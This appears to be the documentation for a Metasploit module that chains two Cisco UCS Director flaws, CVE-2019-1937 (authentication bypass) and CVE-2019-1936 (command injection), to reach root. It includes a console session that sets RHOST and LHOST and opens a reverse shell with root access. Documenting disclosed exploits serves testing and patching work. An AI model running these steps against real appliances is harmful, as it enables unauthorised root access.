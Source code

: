 ## Vulnerable Application

The Cisco UCS Director virtual appliance contains two flaws that can be combined
and abused by an attacker to achieve remote code execution as root.

The first one, CVE-2019-1937, is an authentication bypass, that allows the
attacker to authenticate as an administrator.

The second one, CVE-2019-1936, is a command injection in a password change form,
that allows the attacker to inject commands that will execute as root.

This module combines both vulnerabilities to achieve the unauthenticated command
injection as root.
It has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.

## Scenarios

Setup RHOST, LHOST, LPORT and run it!

```
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > use exploit/linux/http/cisco_ucs_rce
msf5 exploit(linux/http/cisco_ucs_rce) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/http/cisco_ucs_rce) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/http/cisco_ucs_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.121:443 - Successfully bypassed auth and got our admin JSESSIONID cookie!
[+] 10.9.8.121:443 - Shelly is here, press ENTER to start playing with her!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.121:34778) at 2019-08-29 22:28:01 +0700

[root@localhost inframgr]# whoami
whoami
root
[root@localhost inframgr]# ^C
Abort session 2? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 2 closed.  Reason: User exit
msf5 exploit(linux/http/cisco_ucs_rce) >
```
